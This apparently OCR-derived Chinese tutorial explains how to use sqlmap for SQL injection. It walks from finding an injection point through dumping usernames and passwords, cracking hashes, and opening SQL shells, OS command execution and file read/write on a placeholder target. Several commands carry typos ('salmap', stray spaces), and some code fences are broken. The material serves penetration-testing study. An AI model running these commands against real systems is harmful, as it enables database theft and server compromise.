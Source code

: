 ## 注入点判断
1. 判断是否存在注入点

```
sqlmap -u http://xxx
```


当参数有多个时，需要加双引号

```
sqlmap -u "http://xxx/?id=1&uid=2"
```


2. 判断http报文中是否存在注入点
将http报文写入一个文本，然后使用

```
salmap -r txt文本
```


## 存在注入点后，进行下一步操作
1. 查询当前用户下的所有数据库

```
sqlmap -u http://xxx/ --dbs
```


2. 确认数据库后，进行表的查询.  
比如上面一条语句确认有以下几个数据库  
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/b8dzl58cv3n.png" width="600px" />

那么现在查询dkeye数据库中有哪些表

```
sqlmap -u http://xxx/ -D dkeye --tables
```


3. 确认表后，获取字段名
比如上面查询表名后，确定查询其中的user_info表  
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/saug4stnng.png" width="200px" />

使用---columns获取该数据表中的字段名。

```
sqlmap -u http://xxx/ -D dkeye -T user_info -- columns
```


4. 确定字段后，使用命令获取某个字段的内容

```
sqlmap.py -u http://xxx/ - D dkeye -T use＿info -C user,name,password --dump
```


## 获取与数据库用户相关的信息
1. 获取到数据库中的所有用户

```
salmap -u "http://xxx/" --users
```


使用该条语句的前提是，当前用户有权限读取包含所有用户的表的权限时。
2. 获取数据库中用户的密码

```
salmap -u "http://xxx/" --password
``` 
获取到的密码是经过md5加密的，可以在[md5解密网站](https://www.cmd5.com/)
3. 获取当前网脑数据库的名称
```


salmap -u "http://xxx/" --current-db

``` 
4. 获取当前网览数据库的用户名称
```


salmap -u "http://xxx/" --current-user

## 其他参数
1. --level 5：探测等级  

等级|使用
--|--
level 2| HTTP cookie 会加入
level 3| HTTP User-Agent/Referer会加入
level 5| 自动破解出cookie 、 XFF等头部注入。

2. --is-dba 当前用户是否为dba
3. --roles ：列出数据库管理员角色
4. --referer: HTTP Referer 头部伪造。   
指定该字段，会修改sqlmap发送的http报文中的refer字段
5. --sql-shell 运行自定义 SOL 语句

```
sqlmap.py -u http://xxx/ --sql-shell
```


会创建一个sql shell 交互界面，如下图  
<img src="http://wujiashuaitupiancunchu.oss-cn-shanghai.aliyuncs.com/jupyter_notebook_img/ircumdsrizs.png" width="600px" />

6. --os-cmd ，--as-shell ：运行任意操作系统命令
7. --file-read:：从数据库服务器申读取文件
8. --file-write --file-dest 上传文件到数据库服务器申

```{.python .input}

```
